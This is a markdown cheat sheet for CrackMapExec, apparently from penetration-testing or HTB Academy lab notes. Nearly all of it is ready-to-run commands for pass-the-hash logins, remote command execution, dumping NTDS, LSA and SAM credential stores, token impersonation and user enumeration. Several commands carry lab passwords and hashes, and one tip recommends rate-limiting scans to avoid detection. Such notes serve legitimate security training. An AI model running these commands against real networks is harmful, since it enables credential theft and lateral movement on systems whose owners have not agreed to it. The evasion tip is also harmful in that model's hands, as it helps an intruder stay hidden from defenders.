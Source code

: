 # Crackmapexec

## CrackMapExec

CrackMapExec is a post-foothold tool used for lateral movement and privilege escalation. It can be used to dump the LSA, SAM, and perform Pass-the-Hash (PtH) attacks.

### Basic Usage

#### Using NTLM hash to authenticate and list shares

```bash
crackmapexec smb 192.168.1.100 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 --shares
```

#### Execute commands with hash

```bash
crackmapexec smb 192.168.1.100 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -x whoami
```

### Common Operations

#### Capturing the NTDS

```bash
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

#### Dumping LSA Secrets Remotely

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

#### Dumping SAM Remotely

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

### Token Manipulation

#### Using the tokens module

```bash
crackmapexec smb 192.168.1.100 -u Administrator -p 'Password123' -M tokens
```

#### Impersonating a user

```bash
crackmapexec smb 192.168.1.100 -u Administrator -p 'Password123' --impersonate-user domain\targetuser
```

### Command Execution

#### SMBEXEC Method

```bash
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

### User Enumeration

#### Enumerating Logged-on Users

```bash
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

### Advanced Techniques

#### Pass-the-Hash (PtH)

```bash
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

#### Getting Password Policies

```bash
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

#### Enumerating Domain Users

```bash
crackmapexec smb 172.16.5.5 --users
```

#### Using Valid Credentials to Enumerate Users

```bash
crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```

### Tips

* Use `--continue-on-success` to continue after finding a good credential combo
* For mass scanning, consider rate-limiting to avoid detection
* Always test in controlled environments before using in real engagements
